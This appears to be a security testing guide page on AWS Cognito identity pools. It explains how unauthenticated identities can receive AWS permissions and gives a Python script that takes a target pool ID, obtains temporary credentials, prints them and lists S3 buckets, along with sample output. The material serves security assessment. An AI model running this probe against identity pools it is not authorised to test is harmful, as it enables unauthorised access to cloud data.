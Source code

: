 == Cognito Overview ==

Cognito provides developers with an authentication, authorization and user management system that can be implemented in web applications. Cognito is divided in two main components: User Pools<ref>Amazon Cognito User Pool https://docs.aws.amazon.com/cognito/latest/developerguide/cognito-user-identity-pools.html</ref> and Identity Pools<ref>Amazon Cognito Identity Pools https://docs.aws.amazon.com/cognito/latest/developerguide/cognito-identity.html</ref>. The Amazon documentation on Cognito states that:

<blockquote>
User pools are user directories that provide sign-up and sign-in options for your app users. Identity pools enable you to grant your users access to other AWS services. You can use identity pools and user pools separately or together.<ref>What is Amazon Cognito? https://docs.aws.amazon.com/cognito/latest/developerguide/what-is-amazon-cognito.html</ref></blockquote>

From a security perspective, identity pools in Cognito is interesting as it can provide access to other Amazon Web Services. 


=== Identity Pools ===
Identity pools are identified by an ID that looks like the following
<pre>
us-east-1:1a1a1a1a-ffff-1111-9999-12345678
</pre>

A web application will thus query Cognito by specifying the proper Identity pool ID in order to get temporary limited-privilege AWS credentials to access other AWS services. An identity pool also allows to specify a role for users that are not authenticated.
In the Cognito configuration page, there is the option to enable Unauthenticated identities which, as Amazon describes it:

<blockquote>
Unauthenticated roles define the permissions your users will receive when they access your identity pool without a valid login.
</blockquote>

'''Example:'''<br>
Consider the following scenario of a web application that allows access to S3 buckets upon proper authentication with the identity pool that provides temporary access to the bucket. Suppose that the identity pool has also been configured to grant access to unauthenticated identities with the same privileges of accessing S3 buckets. The following python script will try to get unauthenticated credentials and use them to list the S3 buckets.
The script requires <code>boto3</code><ref><code>boto3</code> https://boto3.amazonaws.com/v1/documentation/api/latest/index.html</ref>:
<pre>
pip install boto3
</pre>

In the following script, just replace <code>IDENTITY_POOL</code> with the target Identity Pool ID. 

<pre>
import boto3
from botocore.exceptions import ClientError

try:
    # Get access token
    client = boto3.client('cognito-identity', region_name="us-east-2")
    resp =  client.get_id(IdentityPoolId=[IDENTITY_POOL])

    print "\nIdentity ID: %s"%(resp['IdentityId'])
    print "\nRequest ID: %s"%(resp['ResponseMetadata']['RequestId'])
    resp = client.get_credentials_for_identity(IdentityId=resp['IdentityId'])
    secretKey = resp['Credentials']['SecretKey']
    accessKey = resp['Credentials']['AccessKeyId']
    sessionToken = resp['Credentials']['SessionToken']
    print "\nSecretKey: %s"%(secretKey)
    print "\nAccessKey ID: %s"%(accessKey)
    print "\nSessionToken %s"%(sessionToken)

    # Get all buckets names
    s3 = boto3.resource('s3',aws_access_key_id=accessKey, aws_secret_access_key=secretKey, aws_session_token=sessionToken, region_name="eu-west-1")
    print "\nBuckets:"
    for b in s3.buckets.all():
        print b.name

except (ClientError, KeyError):
    print "No Unauth"
    exit(0)
</pre>

In the case unauthenticated access to S3 buckets is allowed, the output should look like this:
<pre>
Identity ID: us-east-2:ddeb887a-e235-41a1-be75-2a5f675e0944
Request ID: cb3d99ba-b2b0-11e8-9529-0b4be486f793
SecretKey: wJE/[REDACTED]Kru76jp4i
AccessKey ID: ASI[REDACTED]MAO3
SessionToken AgoGb3JpZ2luELf[REDACTED]wWeDg8CjW9MPerytwF

Buckets:
bucket-test-01
bucket-test-02
</pre>

== References ==

